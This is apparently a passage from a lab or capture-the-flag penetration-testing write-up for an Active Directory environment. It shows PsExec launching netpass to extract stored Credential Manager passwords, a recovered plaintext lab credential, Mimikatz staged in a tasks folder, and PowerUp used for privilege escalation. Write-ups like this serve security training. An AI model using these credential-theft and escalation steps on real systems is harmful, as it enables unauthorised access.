 ```sh
Schtasks /RUN /TN "SQLServerChecker"
```

### extracting credentials

extracting credentials from scheduled tasks is possible because Credential Manager stores the credentials on disk and protected by DPAPI. a program running as that specific user will be able to access credentials in this store.

using `PSExec` to run `netpass`, it's possible to retrieve the saved passwords. in this case, it's possible to extract the credentials for the `devmanager` account.

```sh
.\PSExec64.exe -i -s -d C:\Windows\system32\Tasks\netpass.exe
```

```sh
PsExec could not start C:\Windows\System32\Tasks\netpass.exe on DEVSRV:
The system cannot find the file specified.
PS C:\Windows\system32\Tasks> ls

    Directory: C:\Windows\system32\Tasks

Mode         LastWriteTime         Length Name
----         -------------         ------ ----
d-----       1/24/2024   9:33 PM          Microsoft
-a----       5/18/2024   5:29 AM    2530060 Invoke-Mimikatz.ps1
-a----       4/14/2024   2:22 AM     138752 netpass.exe
------       5/25/2024   4:40 PM    1078672 PsExec64.exe
-a----      10/22/2023   4:41 AM       3518 SQLServerChecker

PS C:\Windows\system32\Tasks> .\PsExec64.exe -i -s -d 'C:\Windows\System32\Tasks\netpass.exe'

PsExec v2.34 - Execute processes remotely
Copyright (C) 2001-2024 Mark Russinovich
Sysinternals - www.sysinternals.com


C:\Windows\System32\Tasks\netpass.exe started on DEVSRV with process ID 4872.
PS C:\Windows\system32\Tasks>
```

a `netpass` window opens up and reveals the credentials:

```sh
NEBULA\devmanager:F0rRunning$cheduledTasks!
```

### `PowerUp`

after gaining access via RDP to `Prodsrv.Nebula.Cosmos.local` as `devmanager`, i found that this account lacked local admin rights. privileges can be elevated by using `PowerUp`:

```sh
.\powerup.ps1
Invoke-AllChecks
```
